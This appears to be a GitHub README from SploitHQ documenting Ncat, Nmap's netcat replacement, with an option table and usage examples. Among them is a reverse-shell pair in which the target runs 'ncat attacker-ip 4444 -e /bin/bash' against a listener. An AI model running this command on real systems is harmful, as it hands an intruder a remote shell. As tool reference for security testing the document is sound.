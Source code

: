 # Ncat – Feature-Rich Netcat Replacement from Nmap

**Ncat** is a powerful networking utility bundled with the Nmap suite. It's designed as a modern replacement for the traditional Netcat (`nc`), with support for SSL, connection brokering, input/output redirection, and more. It’s useful for debugging, file transfers, port scanning, reverse shells, and encrypted communication.

🔗 [Explore Ncat Usage on SploitHQ](https://sploithq.com/ncat)

---

## 🔍 What Can Ncat Do?

- Open TCP/UDP connections from the command line
- Listen on ports for incoming connections
- Act as a chat server, proxy, or reverse shell listener
- Transfer files over sockets
- Support **SSL encryption** and **proxy chains**
- Useful in red teaming, network troubleshooting, and service emulation

---

## ⚙️ Basic Syntax

```bash
ncat [options] [host] [port]
```

---

## 🧰 Common Options

| Option             | Description                                       |
|--------------------|---------------------------------------------------|
| `-l`               | Listen for incoming connections                   |
| `-k`               | Keep listening after client disconnects           |
| `--ssl`            | Use SSL/TLS encryption                            |
| `-e <cmd>`         | Execute command after connection (reverse shell) |
| `--exec <cmd>`     | Safer alternative to `-e`, with controlled input  |
| `--proxy <host:port>` | Use a proxy to reach destination              |
| `--sh-exec <cmd>`  | Execute via shell instead of binary exec          |
| `--send-only`      | Only send data, don’t read                        |
| `--recv-only`      | Only receive data                                 |
| `--keep-open`      | Keep connection open for multiple clients         |

---

## 🧪 Examples

### Simple client connection
```bash
ncat example.com 80
```

### Listen for connections on port 4444
```bash
ncat -lvp 4444
```

### Encrypted listener (SSL)
```bash
ncat --ssl -l 443
```

### Reverse shell (attacker listens)
```bash
ncat -lvnp 4444
```

### Reverse shell (target connects back)
```bash
ncat attacker-ip 4444 -e /bin/bash
```

### File transfer (server side)
```bash
ncat -l 1234 < file.txt
```

### File transfer (client side)
```bash
ncat server-ip 1234 > received.txt
```

---

## ⚠️ Notes

- `-e` may be disabled on some systems or require elevated privileges.
- Ncat is safer and more versatile than traditional Netcat.
- Ncat supports **IPv6**, **UDP**, and **SSL out-of-the-box**.
- Be cautious with listener shells — they expose your system to risk.

---

## 🌐 SploitHQ Shell Tools & Connectivity

👉 [Use the Ncat Command Builder on SploitHQ](https://sploithq.com/ncat)

- Build reverse shells with encryption
- Set up listening servers or chat clients
- Copy payloads for testing scenarios

---

## 🔗 Useful Links

- [Ncat Reference Guide (Nmap)](https://nmap.org/ncat/)
- [Ncat Man Page](https://man7.org/linux/man-pages/man1/ncat.1.html)
- [SploitHQ Ncat Page](https://sploithq.com/ncat)

---

## 📄 License

Ncat is distributed with the Nmap suite under a permissive license.  
This content is maintained by [SploitHQ](https://sploithq.com) and intended for legal testing and research purposes only.
